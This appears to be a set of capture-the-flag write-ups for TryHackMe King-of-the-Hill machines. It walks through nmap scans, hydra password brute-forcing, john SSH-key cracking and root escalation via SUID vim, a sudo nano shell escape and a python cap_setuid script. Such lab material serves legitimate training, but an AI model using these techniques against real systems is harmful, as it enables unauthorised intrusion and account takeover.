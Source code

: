 # machine name for KOTH: food(linux)
First,do a basic nmap scan and then you would find details about the IP address.<br/>
```
#### Nmap 7.80 scan initiated Thu Jun 11 15:19:27 2020 as: nmap -sC -sV -oN nmap.txt 10.10.77.101
Nmap scan report for 10.10.77.101<br/>
Host is up (0.21s latency).<br/>
Not shown: 999 closed ports <br/>
PORT     STATE SERVICE VERSION <br/>
9999/tcp open  abyss? <br/>
| fingerprint-strings: <br/>
|   FourOhFourRequest: <br/>
|     HTTP/1.0 200 OK <br/>
|     Date: Thu, 11 Jun 2020 09:50:12 GMT <br/>
|     Content-Length: 4 <br/>
|     Content-Type: text/plain; charset=utf-8 <br/>
|     king <br/>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: <br/>
|     HTTP/1.1 400 Bad Request <br/>
|     Content-Type: text/plain; charset=utf-8 <br/>
|     Connection: close <br/>
|     Request <br/>
|   GetRequest, HTTPOptions: <br/>
|     HTTP/1.0 200 OK <br/>
|     Date: Thu, 11 Jun 2020 09:50:11 GMT <br/>
|     Content-Length: 4 <br/>
|     Content-Type: text/plain; charset=utf-8 <br/>
|_    king <br/>
```
from the scan we got to know that there is a sql database running on.<br/>
with the help of command <br/>
mysql -u root -h ip of machine  -p <br/>
login to sql database with pass root <br/>
with the help of mysql database explore the tables.that will get the first flag and a user by the ssh credentials <br/>
after getting the shell now its time to get the root.<br/>
so use find command and search for the vulnerbility.<br/>
find / -perm -u=s -type f 2>/dev/null<br/>
from this scan you will find out the available options i found that "/usr/bin/vim.basic"<br/>
is available.so,what are you waiting for just get the password changed by<br/>
vim /etc/passwd<br/> //dont forget to encrypt your password while changing!
and change the passwd thats it then just login with root and your password.<br/>
 
<hr>
  
 # machine tyler(linux)


<hr>

From basic nmap scan we get to know that smbclient is open so get it into the smb client and get the flag and <br/>
alert txt<br>
Next do a dirsearch with tag -e html,txt and help of rockyou.txt<br/>
you will get an extension named betatest.when you open you will find a user check with which you will get the username.<br>
and from the alert.txt you would get a password so with the help of username and password do ssh login. <br/>
here you go, finnaly got your user so the next step is for root.<br/>
for getting root i used ./linpes.sh script which helped me to find out there is vulnerbility VIM so with help of vim<br/>
i had added permision for suddorfile letting narrator to get the root shell.<br/>
once you get the root Just defend your king.txt

# Hackers.
=> This machine is entairly based on Bruteforce.So comparitively with other machines it takes some time.

1> nmap -sC -p- 10.10.142.184

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
9999/tcp open  abyss?
```
2> ftp has an Anonymous login.
from ftp we will get a note.

which says 
```
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
```
3> bruteforce the password of gcrawford ftp using hydra
```
hydra ftp://10.10.142.184 -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64
```
once you get the password login to ftp and you will find out the id_rsa key and business.txt.

4> As id_rsa key is password protected lets use ssh2john and bruteforce the hash you got
```
 python3 /usr/share/john/ssh2john.py id_rsa > ssh_hash.txt
 ```
 ```
 john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt
 ```
 5> once you get the password just login to the ssh connction.
 ```
 root@5h4rk:~/koth-hackers# ssh -i id_rsa gcrawford@10.10.142.184
Unauthorised access is a federal offense under the Computer Fraud and Abuse Act 1986
Enter passphrase for key 'id_rsa': 
Last login: Wed Apr 29 19:32:48 2020 from 192.168.170.1
gcrawford@gibson:~$ whoami
gcrawford
gcrawford@gibson:~$ ls
business.txt
gcrawford@gibson:~$ ls -lah
total 40K
drwxr-x--- 6 gcrawford gcrawford 4.0K Apr 30 04:25 .
drwxr-xr-x 6 root      root      4.0K Apr 29 22:05 ..
lrwxrwxrwx 1 gcrawford gcrawford    9 Apr 30 01:31 .bash_history -> /dev/null
-rw-r--r-- 1 gcrawford gcrawford  220 Apr 29 04:00 .bash_logout
-rw-r--r-- 1 gcrawford gcrawford 3.7K Apr 29 04:00 .bashrc
-r-------- 1 gcrawford gcrawford  252 Apr 30 04:25 business.txt
drwx------ 2 gcrawford gcrawford 4.0K Apr 29 17:05 .cache
drwx------ 3 gcrawford gcrawford 4.0K Apr 29 17:05 .gnupg
drwxrwxr-x 3 gcrawford gcrawford 4.0K Apr 29 20:53 .local
-rw-r--r-- 1 gcrawford gcrawford  807 Apr 29 04:00 .profile
drwx------ 2 gcrawford gcrawford 4.0K May  9 21:10 .ssh
gcrawford@gibson:~$ sudo -l
[sudo] password for gcrawford:        
Matching Defaults entries for gcrawford on gibson:
    env_reset, pwfeedback, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gcrawford may run the following commands on gibson:
    (root) /bin/nano /home/gcrawford/business.txt
 ```

6> Time to root the machine! 
as we can see that we can run nano as root. from gtfobins there is cheat code:-
use:-
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
finally rooted the machine!

## hackers writeup 02
namp scan gives you the folowing results:-
```
root@5h4rk:~# nmap -sV -p- 10.10.166.184
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-09 17:59 BST
Nmap scan report for 10.10.166.184
Host is up (0.022s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
9999/tcp open  abyss?
```
=> there is a Anonymous login avilabel with FTP so enumerating <br>
that gives you a note which says:- <br>
```
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
```
as the note said rcampbell has a weak password so with the help of hydra we can get the password for ssh using:-

```
hydra ssh://10.10.99.187 -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64
```
once you get the credentials just login using them you got the user shell!  <br>
Now time for root. <br>
so doing some enumeration i found this:-
```
rcampbell@gibson:~$ getcap -r / 2>/dev/null
/usr/bin/python3.6 = cap_setuid+ep
/usr/bin/python3.6m = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```
setuid looks intresting. that allows the process to use the setuid system call fully. <br>
so with the help of that lets set uid with os.setuid(id) and get root this is the script i used.

```
import os,pty

os.setuid(0)
pty.spawn("/bin/bash")
```
running this gave me root.
```
rcampbell@gibson:~$ python3 root.py 
root@gibson:~# id -a
uid=0(root) gid=1002(rcampbell) groups=1002(rcampbell)
``` 
so you rooted the machine its time to echo your name to king and protect it :) 



